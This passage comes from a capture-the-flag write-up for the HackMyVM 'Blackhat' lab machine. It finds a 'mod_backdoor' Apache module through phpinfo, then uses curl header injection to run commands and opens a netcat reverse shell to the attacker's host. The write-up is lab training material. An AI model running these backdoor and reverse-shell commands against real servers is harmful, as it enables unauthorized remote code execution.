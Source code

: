 It looks like the HackMyVM team has hacked the website and defaced it.  Next we should check the phpinfo file what was discovered by nikto. In this file most often interesting information can be found.

![image](/assets/img/WriteUp/HackMyVM/Blackhat/Pasted image 20240105212404.png){: width="700" height="400" }

We have identified a PHP version. We should add this to our notes.
- PHP 7.4.30

We should inspect the phpinfo file further for juicy information.

![image](/assets/img/WriteUp/HackMyVM/Blackhat/Pasted image 20240105212506.png){: width="700" height="400" }

While scrolling through the phpinfo file a strange module is loaded.
- mod_backdoor

We should do a bit research on this module.

```
https://www.google.com/search?q=mod_backdoor
```
There are multiple kind of backdoors for modules.
Source 1:
```
https://github.com/VladRico/apache2_BackdoorMod
```
Source 2:
```
https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor
```

While reading the [exploit](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/master/exploit.py) it tells us that we can sent command injections with our own header.
We should try that with curl and the whoami command.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Blackhat]
└─$ curl -H 'Backdoor: whoami' http://10.0.2.40/
www-data

```
It looks like we can execute commands as 'www-data'.  Next we should start our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Blackhat]
└─$ sudo rlwrap nc -lvnp 443           
[sudo] password for emvee: 
listening on [any] 443 ...

```

## Initial access
When everything is set we should start our reverse shell command.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Blackhat]
└─$ curl -H 'Backdoor: nc 10.0.2.15 443 -c /bin/bash' http://10.0.2.40/


```
Now we have to check the netcat listener and check some basic information about who we are, where we are working on and what directory we are working in.
